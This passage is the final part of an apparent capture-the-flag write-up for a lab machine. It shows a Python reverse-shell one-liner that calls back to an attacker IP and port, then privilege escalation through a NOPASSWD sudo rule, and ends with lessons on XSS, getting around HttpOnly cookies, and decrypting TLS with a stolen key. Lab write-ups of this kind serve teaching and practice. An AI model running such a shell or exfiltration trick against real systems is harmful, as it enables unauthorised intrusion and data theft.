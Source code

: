 ```shell
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.23.104.52",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

![sub](assets/images/posts/2025-09-19-WhyHackMe/Pasted image 20250915110337.png)

On the compromised web process (`www-data`), I checked which commands the user could run as sudo:

```shell
sudo -l
```

Output:

```
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: ALL
```

This means `www-data` can run **ALL** commands as any user without a password. That’s game over — elevate to root:

```shell
sudo su
```

![sub](assets/images/posts/2025-09-19-WhyHackMe/Pasted image 20250915110846.png)

---

## Final Notes & Lessons Learned

- **XSS via username reflection** is a real attack surface; remember to validate and/or sanitize all reflected fields, not just comment bodies.
    
- **HttpOnly cookies** cannot be stolen by client-side JS; when possible, exfiltrate sensitive data by having the victim request it and forward it (like reading `/dir/pass.txt`).
    
- **PCAP analysis + server keys = powerful**: if an attacker can access a TLS private key, they can decrypt recorded traffic — keep private keys tightly protected.
    
- **Sudo misconfigurations are deadly**: `NOPASSWD: ALL` for a web user (`www-data`) is catastrophic.
    
- When cleaning up an incident, ensure your backups and credentials are secured — otherwise attackers can re-use their backdoors.
    

---